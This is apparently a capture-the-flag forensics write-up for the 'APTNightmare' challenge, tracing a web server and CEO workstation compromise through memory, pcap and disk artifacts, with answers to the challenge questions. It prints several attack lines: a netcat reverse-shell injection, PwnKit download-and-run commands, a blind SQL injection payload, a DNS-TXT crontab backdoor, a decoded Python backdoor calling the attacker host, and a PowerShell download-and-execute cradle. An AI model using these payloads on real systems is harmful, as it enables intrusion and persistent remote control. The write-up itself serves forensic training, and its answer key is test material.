

# APTNightmare

## Speech
```
We neglected to prioritize the robust security of our network and servers, and as a result, both our organization and our customers have fallen victim to a cyber attack. The origin and methods of this breach remain unknown. Numerous suspicious emails have been detected. In our pursuit of resolution, As an expert forensics investigator, you must be able to help us.
```

## Analysis
### What we have 
1. **Memory_WebServer.mem**
    - It's a linux memory dump
    - A rapid volatility scan `/opt/volatility3/vol.py -f Memory_WebServer.mem banners.Banners` give us : `Linux version 5.3.0-70-generic`
    - we need to use volatility 2
2. **traffic.pcapng**
    - Some network
3. **DiskImage_CEO-US.zip**
    - A kape dump, multiple artifacts :
        - `$MFT`
        - `lnk` in `C/ProgramData/Microsoft/Windows/Start Menu/Programs`
        - `ceo-us` user : 
        ```
        ├── AppData
        │   ├── Local
        │   │   └── Microsoft
        │   │       └── Windows
        │   │           ├── Explorer
        │   │           │   ├── thumbcache_1280.db
        │   │           │   ├── thumbcache_16.db
        │   │           │   ├── thumbcache_1920.db
        │   │           │   ├── thumbcache_2560.db
        │   │           │   ├── thumbcache_256.db
        │   │           │   ├── thumbcache_32.db
        │   │           │   ├── thumbcache_48.db
        │   │           │   ├── thumbcache_768.db
        │   │           │   ├── thumbcache_96.db
        │   │           │   ├── thumbcache_custom_stream.db
        │   │           │   ├── thumbcache_exif.db
        │   │           │   ├── thumbcache_idx.db
        │   │           │   ├── thumbcache_sr.db
        │   │           │   ├── thumbcache_wide_alternate.db
        │   │           │   └── thumbcache_wide.db
        │   │           ├── UsrClass.dat
        │   │           ├── UsrClass.dat.LOG1
        │   │           └── UsrClass.dat.LOG2
        │   └── Roaming
        │       └── Microsoft
        │           ├── Office
        │           │   └── Recent
        │           │       ├── index.dat
        │           │       └── policy.LNK
        │           └── Windows
        │               └── Recent
        │                   ├── AutomaticDestinations
        │                   │   ├── 5f7b5f1e01b83767.automaticDestinations-ms
        │                   │   ├── 7e4dca80246863e3.automaticDestinations-ms
        │                   │   ├── 9d1f905ce5044aee.automaticDestinations-ms
        │                   │   ├── f01b4d95cf55d32a.automaticDestinations-ms
        │                   │   └── fb3b0dbfee58fac8.automaticDestinations-ms
        │                   ├── CustomDestinations
        │                   │   ├── 590aee7bdd69b59b.customDestinations-ms
        │                   │   ├── 7e4dca80246863e3.customDestinations-ms
        │                   │   ├── 9d1f905ce5044aee.customDestinations-ms
        │                   │   ├── f01b4d95cf55d32a.customDestinations-ms
        │                   │   └── fb3b0dbfee58fac8.customDestinations-ms
        │                   ├── desktop.ini
        │                   ├── Downloads.lnk
        │                   ├── etc.lnk
        │                   ├── HomeGroup.lnk
        │                   ├── hosts.lnk
        │                   ├── http--go.microsoft.com-fwlink-LinkID=219472&clcid=0x409.lnk
        │                   ├── kape (1).lnk
        │                   ├── ms-settingsnetwork-ethernet.lnk
        │                   ├── Network and Internet.lnk
        │                   ├── Network and Sharing Center (2).lnk
        │                   ├── policy.lnk
        │                   ├── Programs and Features.lnk
        │                   ├── System and Security.lnk
        │                   ├── The Internet.lnk
        │                   └── Windows Firewall.lnk
        ```
        - `amcache` in `C/Windows/AppCompat/Programs`
        - `prefetch` in `C/Windows/prefetch`
        - in `C/Windows/ServiceProfiles` we have `NTUSER.DAT` for `LocalService` and `NetworkService`
        - in `C/Windows/System32`:
            - /config --> registers
            - /SRU
            - /winevt/logs --> evtx

### Linux memory
1. after moving the profile in volatility in `/opt/volatility2/volatility/plugins/overlays`
2. Let's begin by looking at the bash history : `python /opt/volatility2/vol.py -f Memory_WebServer.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_bash`
    ```
    Pid      Name                 Command Time                   Command
    -------- -------------------- ------------------------------ -------
        2341 bash                 2024-02-05 00:32:13 UTC+0000   history
        2341 bash                 2024-02-05 00:32:13 UTC+0000   p
        2341 bash                 2024-02-05 00:38:48 UTC+0000   ifconfig 
        2341 bash                 2024-02-05 01:25:15 UTC+0000   history 
    [...]
        3235 bash                 2024-02-05 01:57:23 UTC+0000   cd /etc
        3235 bash                 2024-02-05 01:57:46 UTC+0000   nano crontab
        3235 bash                 2024-02-05 01:57:53 UTC+0000   cat crontab
        3235 bash                 2024-02-05 01:59:06 UTC+0000   curl http://192.168.1.5:8000/crontab -o crontab
        3235 bash                 2024-02-05 01:59:15 UTC+0000   cat crontab
    ```
    - To filter and sort the bash history I did this command : `awk 'NR > 2 {print $4 "\t" substr($0, index($0,$6))}' bash | sort -k1`
    - Looks like the attacker get access to this server around 01:50:52 because at this time we have a wget to the attacker server : `01:50:52	wget http://192.168.1.5:8000/Pwnkit.sh`
    - He did a lot of wget to Pwnkit.sh (some Pwnkit later) and also some execution of it, looks like he became root did a weird command : `??x<?>%`
    - put new file in the `/var/www/html/download` folder, he put malware in the website folder
    - Modify the crontab (probably persistence)
3. We can check what is the IP of the server :
```
python /opt/volatility2/vol.py -f Memory_WebServer.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_ifconfig
Volatility Foundation Volatility Framework 2.6.1
Interface        IP Address           MAC Address        Promiscous Mode
---------------- -------------------- ------------------ ---------------
lo               127.0.0.1            00:00:00:00:00:00  False          
enp0s3           192.168.1.3          08:00:27:d3:c1:5c  False          
lo               127.0.0.1            00:00:00:00:00:00  False   
```
4. We can see the reverse shell : 
```bash
$ python /opt/volatility2/vol.py -f Memory_WebServer.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_netstat
TCP      192.168.1.3     : 5555 192.168.1.5     :57246 ESTABLISHED                    nc/3192 
```
5. Use the linux_enumerate_files in order to get all the files of the system :
    - After quite some time of looking at all files I found this one :
    ```
    0xffff9fa43f20d628                   1578464 /var/lib/citadel/data/log.0000000001
    ```
    - I extract this file with this command : `python /opt/volatility2/vol.py -f Memory_WebServer.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_find_file --inode=0xffff9fa43f20d628 --outfile=toto`
    - i have the mails in this file, it's pretty hard to read bu by using strings I get this :
    ```
    --Citadel--Multipart--cs-corp.cd--022a--000e
    Content-type: text/html; charset=utf-8
    Content-Transfer-Encoding: quoted-printable
    <html><body>
    <p>Dear CEO,<br /><br />I hope this message finds you well. We've drafted=
    our updated privacy policy ahead of schedule. Please review the attached=
    document and share any objections or suggestions with HR via email.<br /=
    ><br />Your input is valuable=E2=80=94thank you<br /><br />Mr.AK, cs-corp=
    .cd</p>=0A<p>=C2=A0</p>
    </body></html>
    --Citadel--Multipart--cs-corp.cd--022a--000e--
    --Citadel--Multipart--cs-corp.cd--022a--000d
    Content-type: application/vnd.ms-word.document.macroEnabled.12
    Content-disposition: attachment; filename="policy.docm"
    ```
5. To recover the `policy.docm` 
    - Extract all the cdb file : `python /opt/volatility2/vol.py -f Memory_WebServer.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_find_file --inode=0xffff9fa43f20eb68 --outfile=cdb.08`
    - cdb.08 seems interesting because it's detected as a berkeley DB by files and conatins the base64 of the attachment
    - `strings cdb.08`
    - Copy paste all the base64 between `Content-transfer-encoding: base64` and `--Citadel--Multipart--cs-corp.cd--022a--000b--` in `cyberchef`
    - Put a find/replace and replace `\n` be nothing then put `from base64` ans save the result in a file called policy.docm

### Windows
1. With registry explorer, open the registry located in : `C\Windows\System32\config\`
    - In the `SYSTEM` hive I looked for this key : `ControlSet\Control\ComputerName`
2. At the same time I opened the `$MFT`
    - In the Downloads folder of the user ceo-us we see the mail attachment
3. In the evtx file : `C:\Windows\System32\winevt\logs`
    - In the `powershell operational` we have a lot of powershell command
    - the one beginning with : `function func_get_proc_address {` looks interesting, we know the macro launched a powershell
    - The one I took is the second one, with 28 parts, I put the 28 parts in one file which gave me :
    ```powershell
    function func_get_proc_address {Param ($var_module, [...]] $var_procedure))}

    function func_get_delegate_type { Param ( [Parameter [...] return $var_type_builder.CreateType() }

    If ([IntPtr]::size -eq 8) {
        [Byte[]]$var_code = [System.Convert]::FromBase64String('bnlicXZrqsZros8D[...]IyMjIyMjIyMj')

        for ($x = 0; $x -lt $var_code.Count; $x++) {
            $var_code[$x] = $var_code[$x] -bxor 35
        }

        $file_path = "C:\Users\Flamethrower\Downloads\28part.bin";
        [System.IO.File]::WriteAllBytes($file_path, $var_code)
        Write-Output "Machine code written to $file_path"

        #$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
        #$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
        #[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

        #$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
        #$var_runme.Invoke([IntPtr]::Zero)
    }
    ```
    - We see the script is decoding and unzipping base64 long string and he put this string in memory in order to execute it
    - I modified the script to write the result in a file

### Pcap
1. Take a look at the packets statistics :
	
	- We have a good number of http
2. In the **File > Export objects > HTTP** :
	- We can see the following domains : `cs-corp.cd` (with subdomains download, mail, sysmon) then we have the following IP 192.168.1.5 (port 3334, 8000, 806)
	- The domain cs-corp.cd is dead now
	- I export all the files, even if some will be useless I have everything and I can come back later
3. Most of the communications to 1.5 come from 192.168.1.3 but 1.1 and 1.7 also communicate with 1.5
4. Cleaning HTTP dump (begin with 3046 file) :
	- First a lot of file are 404 not found, let's delete them : `for file in *; do grep -q "<title>404 Not Found</title>" "$file" && rm "$file"; done` (after that wer have 1054 file)
	- We have almost 1000 `index.php`...we can see some interesting data (We can see **sqlinjection**) in it, for example :
	```
	username=addd&password=dasd%27%2F%2A%2A%2FAND%2F%2A%2A%2F%28SELECT%2F%2A%2A%2F1101%2F%2A%2A%2FFROM%2F%2A%2A%2F%28SELECT%28SLEEP%281-%28IF%28ORD%28MID%28%28SELECT%2F%2A%2A%2FDISTINCT%28IFNULL%28CAST%28schema_name%2F%2A%2A%2FAS%2F%2A%2A%2FNCHAR%29%2C0x20%29%29%2F%2A%2A%2FFROM%2F%2A%2A%2FINFORMATION_SCHEMA.SCHEMATA%2F%2A%2A%2FLIMIT%2F%2A%2A%2F0%2C1%29%2C4%2C1%29%29%3E96%2C0%2C1%29%29%29%29%29AQrj%29%2F%2A%2A%2FAND%2F%2A%2A%2F%27SToK%27%3D%27SToK                                                                                                                               
	```
	- I'll delete all the index file, because i think it's not very usefull to have all the sqlinjection in files... (we have 55 files remaining)
	- by looking at the different file I see that : (in `%2F` files)
	```
        <li><a href="cs-linux.deb">Download for Linux</a></li>
        <li><a href="cs-android.apk">Download for Android</a></li>
        <li><a href="cs-windows.exe">Download for Windows</a></li>
        
        <p>Take control of your customer relationships. Download CustomerSync today and elevate your customer interactions to new heights!</p>
	```
	- Looks like this website was used to download a rat
	- the `a(.)` files are js with base64
	- The `crontab` file have this : `* * * * * /bin/bash -c "bash -c $(dig linuxupdate.cd TXT +short @ns.linuxupdate.cd)"`
	- `dashboard` files contains the C2 dashboard (obviously), can have some interesting things, on one dashboard I saw the result of a command
	- `favicon` files deleted
	- `ptj` files are garbage i think... Nothing readable.... so delete
	- `PwnKit` is a ELF (also a sh file with this name which downloaded the ELF)
	- `submit` looks garbage... so delete
5. We can have a better idea of what the attacker did with the filter : `ip.src == 192.168.1.5`
    - We see a lot of HTTP communication
    - Then they are a lot of TCP communication, but it's just the three way handshake, that mean the attacker did a port scanner
6. In order to find what opened port the atacker fins I did this filter : `(tcp.flags == 0x0012 and ip.dst == 192.168.1.5 and ip.src == 192.168.1.3) && !(tcp.srcport == 80)`
    - it's working pretty nicely but I added : `&& !(tcp.srcport == 443)` because they are a lot of 443 (I think He used the 443 after discovering it)
    - In the end he discovered all these ports : 110, 119, 143, 2020, 25, 465, 5222, 53, 5555, 563, 587, 993, 995, 443, 80
7. Let's go back to the HTTP traffic, I used that : `(ip.src == 192.168.1.5 && tcp.dstport == 80) or (ip.src == 192.168.1.3 && tcp.srcport == 80)` to focus on my http communications (then I savec in another file, to focus)
    - SQLi to sysmon.cs-corp.cd - a lot of sqli, response always content-length 663
    - this one different : username=addd&password=6203 (response content-length 656, stream 144 in the file with only the http) USELESS
    - One good : username=admin&password=Pass%40000_ with that he get a 302 and goes to /dashboard (stream 1382) also 1429, 1453 **The attacker successfully connect to the dashboard**
    - Stream 1588 : `host=|mkfifo /tmp/mypipe;cat /tmp/mypipe|/bin/bash|nc -l -p 5555 >/tmp/mypipe`
8. After a lot of research, we can see a DNS zone transfer, the answer is in packet number `9396`
    - We have information about the subdomains
    
    - This DNS zone transfer is between the port scan and the sqli

### Pwnkit
1. Pwnkit.sh :
    - Recovered in the pcap file :
    ``` bash
    wget http://192.168.1.5:8000/Pwnkit -o PwnKit || exit
    chmod +x ./PwnKit || exit
    (sleep 1 && rm ./PwnKit & )
    ./PwnKit
    ```
    - Download the Pwnkit ELF file make it executable then exit
    - `(sleep 1 && rm ./PwnKit & )` this one is weird, after a little search on google [we get](https://github.com/rhysmcneill/CVE-2021-403/tree/master), it's a privesc with the id CVE-2021-4034

### Cs-linux.deb
1. Extract with : `ar -x cs-linux.deb`
2. Extract the data with : `tar xvf data.tar.zst`
    - In the file ./usr/bin/cs-linux we have :
    ``` python
    #!/usr/bin/env python3
    exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eJw9UN9LwzAQfl7+irCHNcEsrqMbOmxBxAcRGTjfRKRNT1uaJiWXaqfo325Dh/dwx3f33Xc/6razzlO0qgEvvnRdiCJH2CYCveuVF75uQVgkxKLEI3po2RxUZanCpa5NP9DFgmYZ/T2XY2Pl1JyTN+voQGtDXW7egcUrviMz746jn2E6zZJTYGtxwof9zf3r4enx9vqBB55U1hhQnrEovlzLeHshY7mJRDIaD4zCQd6QGQwKOh+kw6oSNUDHNpzodLpA9qbLVcOi7C4SKB2oDzYKPK9eSJmesObks6o1UA2GlfxKj3Ll2X91OaU5gQEUC0+SJSjbdg4Q2fQvWWyTkCwhMMV3hNEOfzj5Axx7baM=')[0])))
    ```
    - base64 decode then zlib decompress (zlib inflate in cyberchef) : 
    ``` python
    import socket,zlib,base64,struct,time,os

    os.system("echo cs-linux && >> ~/.bashrc")
    for x in range(10):
        try:
            s=socket.socket(2,socket.SOCK_STREAM)
            s.connect(('192.168.1.5',4444))
            break
        except:
            time.sleep(5)
    l=struct.unpack('>I',s.recv(4))[0]
    d=s.recv(l)
    while len(d)<l:
        d+=s.recv(l-len(d))
    exec(zlib.decompress(base64.b64decode(d)),{'s':s})
    ```

## Questions
1. What is the IP address of the infected web server?
    > 192.168.1.3
    - cf. Analysis > Linux memory > 3
2. What is the IP address of the Attacker?
    > 192.168.1.5
    - We can see that in the bash history (linux memory > 1) also in the pcap, we see the download of the malware from 1.3 to 1.5
3. How many open ports were discovered by the attacker?
    > 14
    - Cf. Analysis > Pcap > 6
    - With my filter I get 13 [syn, ack] packets, but because I filtered the port 80 and 443 that gave me 15, BUT! He didn't discover the port 80 because he used it previously
4. What are the first five ports identified by the attacker in numerical order during the enumeration phase, not considering the sequence of their discovery?
    > 25,53,80,110,119
    - cf. Analysis > Pcap > 6
5. The attacker exploited a misconfiguration allowing them to enumerate all subdomains. This misconfiguration is commonly referred to as (e.g, Unrestricted Access Controls)?
    > DNS Zone Transfer
    - Cf > Analysis > Pcap > 8
6. How many subdomains were discovered by the attacker?
    > 9
    - Cf > Analysis > Pcap > 8
7. What is the compromised subdomain (e.g., dev.example.com) ?
    > sysmon.cs-corp.cd
    - Cf > Analysis > Pcap > 8
8. What email address and password were used to log in (e.g., user@example.com:password123)?
    > admin@cs-corp.cd:Pass@000_
    - Cf. Analysis > Pcap > 7
    - We found the username and password but not the email, but we know the domain cs-corp.cd and we know they have mail on this domain
9. What command gave the attacker their initial access ?
    > |mkfifo /tmp/mypipe;cat /tmp/mypipe|/bin/bash|nc -l -p 5555 >/tmp/mypipe
    - Cf. Analysis > Pcap > 7
10. What is the CVE identifier for the vulnerability that the attacker exploited to achieve privilege escalation (e.g, CVE-2016-5195) ?
    > CVE-2021-4034
    - Cf. Analysis > Pwnkit > 1
11. What is the MITRE ID of the technique used by the attacker to achieve persistence (e.g, T1098.001)?
    > T1053.003
    - Cf. Analysis > Linux Memory > 2
12. The attacker tampered with the software hosted on the 'download' subdomain with the intent of gaining access to end-users. What is the Mitre ATT&CK technique ID for this attack?
    > T1195.002
    - Cf. Analysis > Linux Memory > 2
13. What command provided persistence in the cs-linux.deb file?
    > echo cs-linux && > ~/.bashrc
    - Cf. Analysis > Cs-linux.deb
14. The attacker sent emails to employees, what the name for the running process that allowed this to occur?
    > citserver
    - Looking at the current process we remark `citserver`which is the process for the citadel server which is a mail server [see here](https://citadel.org/faq.html)
15. We received phishing email can you provide subject of email ?
    > Review Revised Privacy Policy
    - I used : `strings Memory_WebServer.mem| grep -a2 -i 'subject:'`
    - and noticed :
    ```
    to ceo-us
    <br><p class="message_subject">Subject: Review Revised Privacy Policy</p>
    <p id="msg70" class="msgbuttons">
    <a href="javascript:GetLoggedInFirst(encodeURIComponent('display_enter?replying_mode=reply?replying_to=70?replyquote=70'));"><span>[</span>Reply<span>]</span></a> 
    ```
16. What is the name of the malicious attachment?
    > policy.docm
    - Cf. Analysis > Linux Memory > 5
17. Please identify the usernames of the CEOs who received the attachment.
    > ceo-ru, ceo-us
    - `strings Memory_WebServer.mem| grep -C5 'Subject: Review Revised Privacy Policy' | grep -i 'ceo'`
18. What is the hostname for the compromised CEO?
    > DESKTOP-ELS5JAK
    - Cf. Analysis > Windows > 1
19. What is the full path for the malicious attachment?
    > C:\USERS\CEO-US\DOWNLOADS\POLICY.DOCM
    - Cf. Analysis > Windows > 2
20. Can you provide the command used to gain initial access?
    > powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.1.5:806/a'))
    - Cf. Analysis > Linux Memory > 5
    - Then I opened the file in word under windows 
21. Provide a Popular threat label for the malicious executable used to gain initial access?
    > trojan.cobaltstrike/beacon
    - Cf. Analysis > Windows > 2
    - Then hash the result file (3a396ce389047805ea11b7eaf0109f1f) and put the hash in virustotal
22. What is the payload type?
    > windows-beacon_http-reverse_http
    - Let's download 1768.py which is a scrypt analysing cobalt strike beacon : (can be found here)[https://github.com/DidierStevens/DidierStevensSuite/blob/master/1768.py]
    - More info (here)[https://decoded.avast.io/threatintel/decoding-cobalt-strike-understanding-payloads/]
23. What is task name has been add by attacker?
    > WindowsUpdateCheck
    - Go in C:\Windows\System32\Tasks
    - This folder contains the scheduled tasks of the system, these files are xml files
    - In the file `WindowsUpdateCheck` we see this task is launching a cmd.exe, weird :/